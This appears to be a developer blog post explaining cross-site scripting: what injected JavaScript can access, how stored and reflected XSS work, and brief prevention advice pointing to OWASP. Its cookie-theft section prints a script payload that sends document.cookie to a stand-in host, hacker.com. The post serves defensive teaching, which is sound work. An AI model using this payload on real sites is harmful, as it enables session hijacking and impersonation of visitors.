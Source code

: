 ```yaml
---
slug: xss
date: 2020-06-21
title: 'Be careful of XSS attacks'
description: 'Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.'
published: true
author: 'ZBIRI Walid'
banner: './xss-simple-tutorial.png'
---
```

# Table of contents
1. [Introduction](#introduction)
2. [What is Cross Site Scripting (XSS)](#paragraph1)
3. [What can the hacker do with JavaScript scripts ?](#paragraph2)
4. [How xss attack works ?](#paragraph4)  
    4.1 [Stealing Cookies using XSS](#paragraph4.1)
5. [Stored VS Reflected XSS Attacks](#paragraph5)  
    &nbsp; 5.1 [Stored XSS Attacks](#paragraph5.1)  
    &nbsp; 5.2 [Reflected XSS Attacks](#paragraph5.2)
6. [Cross Site Scripting Prevention](#paragraph6) 
7. [Wrap up](#paragraph7) 

# Introduction <a name="introduction"></a>
Hello geeks, in this blog, we will cover two famous attacks in web applications that every web developer (Backend or Frontend) should know.
We will define XSS and CSRF attacks, then give some advices to protect your websites from this attacks.
>> This article is just for learning purposes!


# What is Cross Site Scripting (XSS) <a name="paragraph1"></a>
The cross site scripting is one of the famous attacks in web apps, it's about injecting a script in your web app
that will execute malicious commands on the client browser.  
In the XSS attack, the hacker doesn’t target your web app in the first place. But he use it as a bridge to attack your visitors.
# What can the hacker do with JavaScript scripts ? <a name="paragraph2"></a>
Most web browsers run JavaScript in a very tightly controlled environment. JavaScript has limited access to the user’s operating system and the user’s files. However, JavaScript can still be dangerous if misused as part of malicious content:
- Malicious JavaScript has access to all the objects that the rest of the web page has access to. This includes access to the user’s cookies. Cookies are often used to store session tokens. If an attacker can obtain a user’s session cookie, they can impersonate that user, perform actions on behalf of the user, and gain access to the user’s sensitive data.
- JavaScript in modern browsers can use HTML5 APIs. For example, it can gain access to the user’s geolocation, webcam, microphone, and even specific files from the user’s file system. Most of these APIs require user opt-in, but the attacker can use social engineering to go around that limitation.
- JavaScript can make Ajax Calls through the XMLHttpRequest object or using fetch API.
With these functionnalities in combination with social engineering, criminals can run some advanced attacks like cookie theft, keylogging and identity theft etc ...
# How xss attack works ? <a name="paragraph4"></a>
In XSS attack there is 3 actors:<br/>
1. Your website visitors<br/>
2. Your website (Bridge)<br/>
3. The hacker<br/>

Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application.  
The actual attack occurs when the victim visits the web page or web application that executes the malicious code. The web page or web application becomes a vehicle to deliver the malicious script to the user’s browser. Vulnerable vehicles that are commonly used for Cross-site Scripting attacks are forums, message boards, and web pages that allow comments.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.
## Stealing Cookies using XSS:<a name="paragraph4.1"></a>
![cookie](./how-xss-works-910x404.png)
Criminals usually uses XSS to steal user cookies. This allows them to impersonate the victim.
The attacker can send the cookie to their own server in many ways. For example with injecting this peace of code:
``` html
<script>
window.location="http://hacker.com/?cookie=" + document.cookie
</script>
```
1- The attacker injects a payload into the website’s database by submitting a vulnerable form with malicious JavaScript content.<br/>
2- The victim requests the web page from the web server.<br/>
3- The web server serves the victim’s browser the page with attacker’s payload as part of the HTML body.<br/>
4- The victim’s browser executes the malicious script contained in the HTML body. In this case, it sends the victim’s cookie to the attacker’s server.<br/>
5- The attacker now simply needs to extract the victim’s cookie when the HTTP request arrives at the server.<br/>
6- The attacker can now use the victim’s stolen cookie for impersonation.<br/>

# Stored and Reflected XSS Attacks <a name="paragraph5"></a>
XSS attacks can generally be categorized into two categories: stored and reflected.
## Stored XSS Attacks (No Need for Social engineering) <a name="paragraph5.1"></a>
![stored](./stored-xss.png)
Stored attacks are those where the injected script is permanently stored on the target servers, such as in a database, in a message forum, visitor log, comment field, etc. So all your websites visitors are going to be affected by the script. The victim then retrieves the malicious script from the server when it requests the stored information. Stored XSS is also sometimes referred to as Persistent.
## Reflected XSS Attacks (Need Social engineering) <a name="paragraph5.2"></a>
![reflected](./reflected-xss.png)
First of all what do we mean by reflected? So let's say you navigate to __www.example.com/page?main.html__ and it puts you on the main page of __example.com__. Now you navigate to the index, which is located at __www.example.com/page?index.html__. You start to wonder, what other pages are there?

So you type in __www.example.com/page?foo__ and hit enter, and you get an error page which will say something like "Resource foo is not found".

The thing to note here is that you put a parameter into the URL, and that parameter got reflected back to you as the user. In this case, it was the parameter "foo".

Now the idea behind reflected XSS should be a bit more clear; instead of inputting a parameter like "foo", you input something like ``<script>malicious code</script>foo`` and hit enter. On a vulnerable site, that entire parameter will get injected into the error page that pops up, the javascript will execute, in addition to the "Resource foo is not found" message. If you can induce somebody else navigate to the same link that you crafted, you can execute arbitrary javascript in their session.
# Cross Site Scripting Prevention <a name="paragraph6"></a>
To keep yourself safe from XSS, you must sanitize your input. Your application code should never output data received as input directly to the browser without checking it for malicious code.

For more details, refer to the following [cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) maintained by the OWASP organization.
# Wrap up <a name="paragraph7"></a>
While testing, it is highly recommended to evaluate the risks that bring possible XSS attacks. XSS attack can affect web applications, that seem to be secure as well.

It is considered to be one of the most harmful and risky attacks. Hence, we should not forget this type of testing. While performing testing against XSS, it is important to have a good knowledge about this attack.
### Useful resources:
1. [XSS By OWASP](https://owasp.org/www-community/attacks/xss/)
2. [XSS Prevention By OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)